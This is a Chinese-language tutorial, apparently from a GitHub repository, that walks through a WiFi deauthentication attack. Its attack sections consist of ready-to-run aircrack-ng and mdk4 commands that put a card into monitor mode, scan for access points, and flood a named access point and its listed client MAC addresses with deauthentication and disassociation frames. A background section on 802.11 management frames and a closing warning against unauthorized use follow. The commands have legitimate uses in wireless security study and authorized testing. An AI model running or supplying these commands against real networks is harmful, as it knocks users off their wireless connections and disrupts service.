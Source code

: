# 对WiFi发动取消认证攻击（Deauthentication)

取消认证攻击是最简单的攻击手段之一，但破坏性奇高，可以轻易让无线网络环境瘫痪。

## 阶段一：信息收集

### 1. 查看网卡接口

```bash
ip addr
```

### 2. 检查并杀死冲突进程

```bash
airmon-ng check kill
```

### 3. 开启监听模式

```bash
airmon-ng start wlan0
```

### 4. 验证是否处于监听模式

```bash
airmon-ng
```

### 5. 获取目标AP信息

```bash
airodump-ng wlan0mon
```

*目标AP:*

```bash
ESSID:    TPGuest-77E0
BSSID:    82:8F:1D:FB:77:E0
Channel:  1  
```

### 6. 针对该AP进行监听

```bash
airodump-ng --bssid 82:8F:1D:FB:77:E0 -c 1 wlan0mon
```

### 7. 获取所连接设备MAC （可选）

```bash
设备一：E0:DC:FF:CC:0E:91
设备二：18:01:F1:B2:B3:02
```

## 阶段二：发动攻击

### 1. mdk4（同时进行Deauthentication 和 Disassociation）

- 针对指定客户端
  
  ```bash
  mdk4 wlan0mon d -B 82:8F:1D:FB:77:E0 -c 1 -S E0:DC:FF:CC:0E:91
  ```

- 针对所有客户端
  
  ```bash
  mdk4 wlan0mon d -B 82:8F:1D:FB:77:E0 -c 1
  ```

### 2. aireplay-ng

- 针对指定客户端
  
  ```bash
  aireplay-ng --deauth 0 -a 82:8F:1D:FB:77:E0 -c E0:DC:FF:CC:0E:91 wlan0mon
  ```

- 针对所有客户端
  
  ```bash
  aireplay-ng --deauth 0 -a 82:8F:1D:FB:77:E0 wlan0mon
  ```

---

---

## 相关知识：

#### 1. 802.11 协议

- 802.11 协议将所有的数据分为三种：
  
  - 数据帧
  
  - 管理帧
  
  - 控制帧

- 管理帧主要用来连接和断开无线网络。
  
  - Beacons
  
  - Probe Request/Response
  
  - Authentication Request/Response
  
  - Deauthentication
  
  - Association Request/Response
  
  - Disassociation

#### 2. WiFi连接交互过程：

1. `AP`广播发送Beacon（信标帧）

2. `STA`向`AP`发送携带有指定SSID的`Probe Request`（探测请求帧）

3. `AP`向`STA`发送`Probe Response`（探测回应帧）

4. `STA`对`AP`发送`Authentication Request`（认证请求帧）
   
   - `AP`向`STA`发送`Authentiction Response (Challenge)`（加密认证）
   
   - `STA`对`AP`发送`Authentication Response (Encrypted Challenge)`（加密认证）

5. `AP`向`STA`发送`Authentiction Response`（认证应答帧）

6. `STA`向`AP`发送`Association Request`（关联请求帧）

7. `AP`向`STA`发送`Association Response`（关联应答帧）

8. `STA`向`AP`发送`Disassociation`（取消关联帧）

根据协议，可以针对这一过程发起攻击：

- `Deauthentication`攻击

- `Disassociation`攻击

---

***攻击未授权的无线设备涉嫌违法，切勿以身试法。***
